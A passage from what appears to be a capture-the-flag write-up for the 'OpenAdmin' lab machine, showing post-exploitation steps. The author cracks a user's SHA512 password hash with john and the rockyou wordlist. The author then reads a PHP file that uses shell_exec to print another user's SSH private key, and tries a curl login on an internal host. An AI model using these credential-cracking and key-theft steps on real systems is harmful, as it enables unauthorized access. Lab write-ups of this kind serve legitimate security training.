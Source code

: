 ```
            }
         ?>

```

trying to crack that, but it didn't fall to rockyou, and since we have FS access, kind of unnecessary
...

but while typing that:

```
$ john_rockyou jimmy.hash --format=raw-SHA512-opencl --rules:Jumbo
Device 2: NVIDIA GeForce RTX 2060
Using default input encoding: UTF-8
Loaded 1 password hash (raw-SHA512-opencl [SHA512 OpenCL])
Note: This format may be a lot faster with --mask acceleration (see doc/MASK).
LWS=32 GWS=983040 (30720 blocks)
Press 'q' or Ctrl-C to abort, almost any other key for status
Revealed         (?)
1g 0:00:00:03 DONE (2022-08-08 18:13) 0.3003g/s 4723Kp/s 4723Kc/s 4723KC/s Dev#2:61°C Revealed..Kiaeve
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

real    0m3.754s
user    0m2.691s
sys     0m0.962s
```

nice - but rather than port forwarding unnecessarily
```
jimmy@openadmin:~$ cat /var/www/internal/main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>

```

```
jimmy@openadmin:~$ curl -X POST -F "username=jimmy" -F "password=Revealed" http://internal.openadmin.htb

curl: (6) Could not resolve host: internal.openadmin.htb
```

oi.
